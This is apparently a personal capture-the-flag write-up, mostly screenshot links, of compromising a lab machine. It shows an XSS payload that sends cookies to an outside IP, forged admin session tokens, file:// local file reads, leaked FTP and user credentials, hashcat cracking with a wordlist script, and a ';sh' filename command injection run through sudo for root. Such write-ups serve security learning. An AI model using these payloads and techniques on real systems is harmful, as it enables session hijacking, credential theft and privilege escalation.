 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #xss #lfi #reverse_eng #log_var

# Findings

## External
### Enumeration

![](https://i.imgur.com/nG3PHms.png)
![](https://i.imgur.com/dseNtZo.png)
- ![](https://i.imgur.com/APqkjDM.png)

	- meaning those ppls will check it, so i can create exploit for this XSS,CSRF
	- ![](https://i.imgur.com/oAjX7lv.png)

	- ![](https://i.imgur.com/zMEEPAf.png)
### Gaining Access
- ![](https://i.imgur.com/clBs0bj.png)
- ![](https://i.imgur.com/oGKB6gN.png)
- `user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4`
- ![](https://i.imgur.com/BvnV64J.png)
- as you see the dashboard displays the report name lets check it
	- ![](https://i.imgur.com/O3rifnV.png)
	- i wrote the report title "rexder" and it worked.

![](https://i.imgur.com/nG3PHms.png)
- As it says if the bug requires attention it will be **escalated to the admin** 
	- So if i make a report and escalate it by giving priority level high it will be sent to the admin.
	- For this i need to think how i can get the id
		- ![](https://i.imgur.com/2yd33ES.png)
		- The Payload i used before wont work on this one, bc we dont need to redirect us while changing the priority
			- `<script>var i=new Image(); i.src="http://10.10.16.52/?cookie="+document.cookie;</script>`
- ![](https://i.imgur.com/Jg8bI2c.png)
![](https://i.imgur.com/bFHzU8x.png)
![](https://i.imgur.com/VAVjvVu.png)
![](https://i.imgur.com/x06cFNY.png)
![](https://i.imgur.com/CiFRWaW.png)
![](https://i.imgur.com/B5pcPwp.png)
`eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5`
![](https://i.imgur.com/60n196q.png)

- we got the `/create_pdf_report` on the admin dash board
![](https://i.imgur.com/ltHg2N8.png)

![](https://i.imgur.com/mxqZdPb.png)
![](https://i.imgur.com/rUZSdTO.png)
https://vsociety.medium.com/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-ee438679351d
![](https://i.imgur.com/Dq022TV.png)
i used psedo file -` /proc/self/cmdline `
![](https://i.imgur.com/M38Txhr.png)
- The Pseudo File ,Contains the command and the file name which runs.
	- ![](https://i.imgur.com/2DYu25C.png)
- based on our finding there is `python3 app/code/app.py` command. so the `/app/code/app.py` is the code.
	- ![](https://i.imgur.com/VIZsV3j.png)
- ![](https://i.imgur.com/dkox0In.png)![](https://i.imgur.com/uTidaM1.png)
- I tried to access the modules used on the python code ( `blueprints/dashboard/dashboard.py`) ,and got more python codes.
	- file:///app/code/blueprints/dashboard/dashboard.py
![](https://i.imgur.com/BGj7B4R.png)
![](https://i.imgur.com/wPOlIga.png)

`ftp.local : ftp_admin: u3jai8y71s2`![](https://i.imgur.com/5D7Oi0i.png)![](https://i.imgur.com/4tSk207.png)
![](https://i.imgur.com/84J5BGy.png)


## Internal
### Enumeration
 ftp://ftp_admin:u3jai8y71s2@ftp.local/private-8297.key
![](https://i.imgur.com/oeNgQ5K.png)
- ` ftp://ftp_admin:u3jai8y71s2@ftp.local/welcome_note.txt`
	- ![](https://i.imgur.com/Sr23aaT.png)
`Y27SH19HDIWD`
### Gaining Access
- ![](https://i.imgur.com/ne594gC.png)
	- I got user name and also removed the passphrase 
- ![](https://i.imgur.com/IFgUa0g.png)
- ![](https://i.imgur.com/dPiczfH.png)

![](https://i.imgur.com/kdN3lEb.png)
- Cracked with Hashcat
	- ![](https://i.imgur.com/LEld3Vu.png)
- `adam : adam gray`
- ![](https://i.imgur.com/0c56thb.png)
- Doing local port forwarding and tryin port 4444 and 33641
	- `4444`
		- Tried to check it but as we know the xss executed automatically most of the tim that is done using headless browsers, one of them is selenium, so i skipped checking it.![](https://i.imgur.com/kuSFz1B.png)
	- `172.21.0.1:ftp` on dev_acc
		- ![](https://i.imgur.com/BbWl9xV.png)- ![](https://i.imgur.com/Q7fpv4j.png)
- ![](https://i.imgur.com/wv6lhhd.png)
- I though the password was thee `UH...` so i tried to finish that and i have also got MD5 Hash from the 
	- ![](https://i.imgur.com/QUzxz5B.png)
- The Code do comparing 
	- ![](https://i.imgur.com/b8336g1.png)
- So i can generate wordlist and crack the md5 `0feda17076d793c2ef2870d7427ad4ed`
```python
# Function to generate alphanumeric combinations
def generate_combinations():
    characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    for a in characters:
        for b in characters:
            for c in characters:
                for d in characters:
                    yield a + b + c + d

# Replace the asterisks with generated combinations
original_string = "UHI75GHI****"
combinations = generate_combinations()

# Generate the list of consecutive combinations
result_list = [original_string.replace("****", next(combinations)) for _ in range(10000000)]

# Save the generated list to a file
with open("result.txt", "w") as file:
    file.write('\n'.join(result_list))
```
- `hashcat -m 0 -a 0 0feda17076d793c2ef2870d7427ad4ed result.txt`
	- ![](https://i.imgur.com/XYEDK48.png)
`UHI75GHINKOP`
- ![](https://i.imgur.com/c8PzYn0.png)
![](https://i.imgur.com/6Yt2fpc.png)
- while enumertaing var file i got some readable files
	- ![](https://i.imgur.com/ByC8nAi.png)
- so i used grep it does work but i used zgrep for the gz files.
	- ![](https://i.imgur.com/PedOqjd.png)
	- ![](https://i.imgur.com/S1Ftj1N.png)
```json
suricata/eve.json.7.gz:12477:{"timestamp":"2023-09-28T17:44:48.188361+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"PASS","command_data":"Lopezz1992%123","completion_code":["230"],"reply":["Login successful."],"reply_received":"yes"}}
```
- ` lopez : Lopezz1992%123 `
### Maintaining Access
![](https://i.imgur.com/QFWcdAJ.png)
![](https://i.imgur.com/ZD2yFDt.png)
- Reverse the runner2 with ghidra
	- ![](https://i.imgur.com/ZUYxvrf.png)
	- ![](https://i.imgur.com/wT7cxXm.png)
	- ![](https://i.imgur.com/TvrQVmf.png)
	- ![](https://i.imgur.com/hNQywlB.png)
	- ![](https://i.imgur.com/tR2HNaE.png)
	- ![](https://i.imgur.com/6j1XymU.png)
	- ![](https://i.imgur.com/FMew2Kq.png)
		- ![](https://i.imgur.com/oLyfbyv.png)
	- ![](https://i.imgur.com/CEWDXJw.png)
	- I made the hello file tar ![](https://i.imgur.com/FGkgysH.png)
		- ![](https://i.imgur.com/1azDVc6.png)
		- As you see it is displaying our filename, so i thought to use `;sh` on the name
		- ![](https://i.imgur.com/o8GAT1g.png)
	- ![](https://i.imgur.com/4U4QLlj.png)
- `echo '{"run":{"action": "install", "role_file": "/home/lopez/hello.tar;sh"}, "auth_code": "UHI75GHINKOP"}' > exploit`
- `sudo ./runner2 ~/exploit` 
![](https://i.imgur.com/4qtOWYo.png)

# Random Notes

╔══════════╣ Unexpected in /opt (usually empty)
total 28
drwxr-xr-x  7 root root  x 19 root root    4096 Apr 10 07:40 ..
drwx--x--x  4 root root    4096 Aug 26  2023 containerd
drwxr-xr-x  4 root root    4096 Sep 19  2023 ftp
drwxr-xr-x  3 root root    4096 Apr 10 08:21 google
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 playbooks
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 runner2



